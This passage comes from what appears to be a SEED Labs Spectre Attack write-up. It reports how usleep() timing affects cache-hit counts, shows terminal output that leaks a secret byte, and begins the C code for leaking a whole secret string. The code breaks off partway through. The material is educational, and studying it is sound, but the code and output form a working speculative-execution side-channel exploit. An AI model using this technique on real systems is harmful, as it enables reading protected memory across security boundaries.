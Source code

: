 To finalize this task, the `usleep(10);` instruction causes the process to sleep for 10 microseconds between the execution of the Spectre Attack and the checking of the cached values. This significantly improves the chance of winning the race condition.

The experiments made were the following:

- Commenting the `usleep(10);` line:

    ```
    ┌──(kali㉿kali)-[~/…/seed-labs/category-hardware/Spectre_Attack/Labsetup]
    └─$ ./spectreAttackImproved
    *****
    *****
    ...
    *****
    Reading secret value at index -8248
    The secret value is 83(S)
    The number of hits is 3
    ```

    We see that the number of hits is quite low.

- With `usleep(10);` and `usleep(100);` the number of hits varies between around 20 and 180, which is quite a large interval. After this, with greater values, the number of hits starts to diminish again. Note that running the attack manually would give us a much higher chances of success.

## Task 6

In this task, we want to print the entire secret string. For that, simply keep executing in the loop the Spectre attack to the different bytes of the secret string. The code was mainly modified in the `main()` function to support the mentioned changes. 

```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp    = 0;
char    *secret = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
    return buffer[x];
  } else {
    return 0;
  }
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
```